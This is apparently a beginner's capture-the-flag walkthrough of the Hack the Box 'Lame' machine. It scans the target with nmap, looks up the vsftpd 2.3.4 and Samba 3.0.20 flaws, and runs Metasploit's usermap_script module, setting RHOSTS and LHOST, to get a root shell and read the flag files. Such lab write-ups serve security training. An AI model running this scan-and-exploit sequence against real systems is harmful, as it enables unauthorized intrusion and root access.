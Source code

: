 # Walkthrough of Lame Machine – Hack the Box:
1.	In a new terminal window, run `nmap -sV -O -F --version-light 10.10.10.3`
![Image](https://user-images.githubusercontent.com/44144070/89726880-9b4c8980-d9d4-11ea-9c66-4269c021413f.png)
	- Another option is to open **Zenmap** and run a port scan on the same IP (to see just the information on the ports, you can go to the **Ports/Hosts** tab)
        - **Zenmap** is a program that does a really good job at visualizing and breaking down `nmap` commands into digestible bites
    ![Image](https://user-images.githubusercontent.com/44144070/89726888-b7502b00-d9d4-11ea-9a64-1e5bd559f122.png)
    ![Image](https://user-images.githubusercontent.com/44144070/89726889-b8815800-d9d4-11ea-8bab-4a7be888eae5.png)
    - Now there a a LOT of different ways to use `nmap`, and being that I'm still learning you are going to be seeing a lot of different versions, but I will do my best to explain what each version does. The two versions used here I got from other tutorials and show different levels of detail when port scanning.
        - The first version we used was `nmap -sV -O -F --version-light 10.10.10.3`
            - `-sV`: Probes open ports to determine service/version info
            - `-O`: Enable OS detection
            - `-F`: Fast mode, scans fewer ports than the default scan
            - `--version-light`: Limit to most likely probes
        - The second version used (as seen in the **Zenmap** screenshot) was `nmap -A -v 10.10.10.3`
            - `-A`: Enable OS detection, version detection, script scanning, and traceroute
            - `-v`: Increase verbosity level (how detailed the process and results are)
2.	You’ll find that there are 4 available ports with different services running on them (21, 22, 139, 445)
3.	Port 21 shows **vsftpd 2.3.4**, let’s check if there are any known vulnerabilities
4.	Run command `searchsploit vsftpd 2.3.4`
	- What this does is search for any [Common Vulnerability and Exploits (CVE)](https://cve.mitre.org/about/index.html) and returns the name and location of the exploit in Kali
    ![Image](https://user-images.githubusercontent.com/44144070/89726895-be773900-d9d4-11ea-8b21-a2ea0eb85645.png)
5.	You'll see that there is one vulnerability, a *"Backdoor Command Execution"*
6.	We can try and use this vulnerability with **Metasploit**
	- **Metasploit** is a very nifty software that has a bunch of CVE exploits saved that can be run automatically
7.	Open **Metasploit** and use the command `search vsftpd 2.3.4`
    ![Image](https://user-images.githubusercontent.com/44144070/89726896-bfa86600-d9d4-11ea-9c96-eed449fe639d.png)
8.	You'll see 4 different options, and the fourth one will be our *"Backdoor Command Execution"* exploit
9.	Copy the address and run `use exploit/unix/ftp/vsftpd_234_backdoor`
10.	Type `show options` and we'll see that we need to set **RHOSTS** to the desired IP
    ![Image](https://user-images.githubusercontent.com/44144070/89726897-c040fc80-d9d4-11ea-8180-bbc1cf91524f.png)
11.	Do `set rhost 10.10.10.3`
12.	If we do `show options` again, then we'll see its set and can type `run`
	- What this does is tell **Metalsploit** where to direct the exploit
    ![Image](https://user-images.githubusercontent.com/44144070/89726898-c0d99300-d9d4-11ea-85af-1a4a549e7948.png)
13.	After a little bit, we'll get a message saying, *“Exploit completed, but no session was created”*,    meaning that the exploit was attempted but didn’t' work (if we do some [research](https://www.exploit-db.com/exploits/17491), it turns out that this exploit had since been fixed which is why our attempt failed)
    ![Image](https://user-images.githubusercontent.com/44144070/89726899-c1722980-d9d4-11ea-95b4-e9fb64ffb433.png)
14.	Let's continue to check the other option on port 139, **Samba**
15.	Run `search Samba 3.0.20` (which we know from our port scan) and we see two results.
    ![Image](https://user-images.githubusercontent.com/44144070/89726900-c20ac000-d9d4-11ea-9099-911a217b2ce9.png)
16.	We're going to want to focus on the first result, *"'Username map script' Command Execution"*
17.	We search that vulnerability in **Metasploit** with `searchsploit Samba 3.0.20`
    ![Image](https://user-images.githubusercontent.com/44144070/89726901-c20ac000-d9d4-11ea-85e7-e2c36f8375e4.png)
18.	We got a lot more options this time, but if we scroll through we see that option 15 is our *"username map script" Command Execution* vulnerability and copy the address and run `use exploit/multi/samba/usermap_script`
19.	Again we look at the settings and change the **RHOSTS** to our IP with show options and `set rhost 10.10.10.3` and then we're good to `run`
    ![Image](https://user-images.githubusercontent.com/44144070/89726902-c2a35680-d9d4-11ea-9203-f5b35506d1b9.png)
20.	Chances are (unless you set it up before), you'll get the same message from when we ran the **vsftpd 2.3.4 exploit** *“Exploit completed, but no session was created”*, but if you run `show options` again, you'll see a new section
    ![Image](https://user-images.githubusercontent.com/44144070/89726903-c2a35680-d9d4-11ea-90b9-85e20e6f1227.png)
21.	Now we have an **LHOST** and **LPORT** section, but the natural **LHOST** is not what we want because HTB gives us our own local IP for when we are on its VPN. You can find yours in the **Access** settings on the HTB website
    ![Image](https://user-images.githubusercontent.com/44144070/89726904-c33bed00-d9d4-11ea-9645-090c1b55201a.png)
22.	Run `set lhost yourHtbIp` and then try `run` again
23.	You should see some new messages and after a few seconds one that says, *“Command shell session 1 opened”*, and we're in!
    ![Image](https://user-images.githubusercontent.com/44144070/89726905-c33bed00-d9d4-11ea-8fbf-1b58f3e2a092.png)
24.	Now that we have a shell, we can check what kind of privileges we have with `whoami`

    ![Image](https://user-images.githubusercontent.com/44144070/89726906-c3d48380-d9d4-11ea-90be-560bf8e6e84f.png)
25.	Turns out we are already in as the root user! Now all we need to do is find the password hashes under user.txt and root.txt
26.	From here we have the option of either digging around in all the files and directories for what we want, or we can use this command `find / -type f -name “nameOfFile”` where nameOfFile will be replaced with user.txt and root.txt
	- This command will return the file address of whatever file you put in place of *"nameOfFile"*. We know what to search for because HTB machines often store the user and root hashes in files named user.txt and root.txt
    ![Image](https://user-images.githubusercontent.com/44144070/89726907-c3d48380-d9d4-11ea-9444-af9a860827a4.png)
27.	Once we find the locations of the two files, we can just run `cat fileAddress` where fileAddress is what we got with the find command
28.	Take those hashes and submit them on your HTB account and get the points!

## Resources
- [Official Lame Writeup from Hack the Box](https://www.hackthebox.eu/home/machines/writeup/1)
- [Tutorial from freecodecamp.org](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-lame/)
- [`nmap` Command Help](https://nmap.org/book/man-briefoptions.html)

###### <font size="1">075 108 097 108 106 097 112 099 108 032 083 112 108 098 097 108 117 104 117 097 032 068 112 115 115 112 104 116 032 090 118 116 108 121 122 108 097</font>